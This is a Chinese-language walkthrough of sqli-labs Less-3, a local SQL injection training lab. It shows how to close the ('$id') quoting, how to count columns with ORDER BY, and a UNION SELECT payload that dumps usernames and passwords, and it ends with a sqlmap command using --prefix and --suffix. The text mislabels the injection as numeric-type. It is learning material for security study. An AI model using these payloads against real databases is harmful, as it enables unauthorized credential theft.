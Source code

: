 # Less-3

**前言**

**本关特点，在前两关的基础上，sql语句上做了限制，需要提前闭合括号，当用sqlmap工具运行这类注入时，需要添加--prefix 和 --suffix这两个参数，具体如何构造还需要分析回显信息**

梅开三度，依旧是输入带值的ID作为参数

![1622097427732](1622097427732.png)

同样，在id=1后加入单引号报错，显然sql语句的闭合是非法的，这里存在sql注入

```http
http://localhost:8080/sqli-labs-master/Less-3/?id=1'
```

![1622097723806](1622097723806.png)

## 3.1 判断sql注入的类型

分析一下上面的报错信息与前两关有所不同

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 
```

精简一下

```mysql
''1'') LIMIT 0,1'
```

再把左右两边的单引号去掉，两个引号中间的部分才是真正构造出来的sql语句，LIMIT0，1也可以先去掉，最后留下来的就是报错的元凶，显然我们的输入id=1’，这个单引号使得原本的sql语句提前闭合引发了报错

```mysql
'1'')
```

那么可以尝试还原这条sql语句，使用$id来替换1‘，当然别忘记给这个右括号添加一个对应的左括号

```mysql
select * from users where id = ('$id');
```

所以判断这是一个数字型sql注入

## 3.2 判断字段的数量

既然存在括号，那么直接上order by来判断字段数量显然会失效，需要构造一个能够绕过它的payload，对于这关来说也很简单，只需要将前面的括号提前闭合就好

```mysql
$id')payload --+
```

然后在payload中使用order by查询字段数量即可，同样也是3个字段

```http
http://localhost:8080/sqli-labs-master/Less-3/?id=1') order by 4--+
```

![1622101429569](1622101429569.png)

## 3.3 获取用户名和密码

既然已经知道如何绕过，那么之前Less-1，Less-2里的方法便能够正常使用，因此跳过中间一些重复性步骤，直接拿到用户名和密码

```http
http://localhost:8080/sqli-labs-master/Less-3/?id=-1') union select 1,group_concat(username),group_concat(password) from security.users--+
```

![1622101707420](1622101707420.png)

## 3.4 使用sqlmap

就本关而言，可以使用下面这条语句运行sqlmap（%23即注释#的url编码）

```shell
sqlmap -u "http://localhost:8080/sqli-labs-master/Less-3/?id=1" --prefix "')" --suffix "%23"
```

参数注解

​	--prefix添加前缀

​	--suffix添加后缀

![1622102983806](1622102983806.png)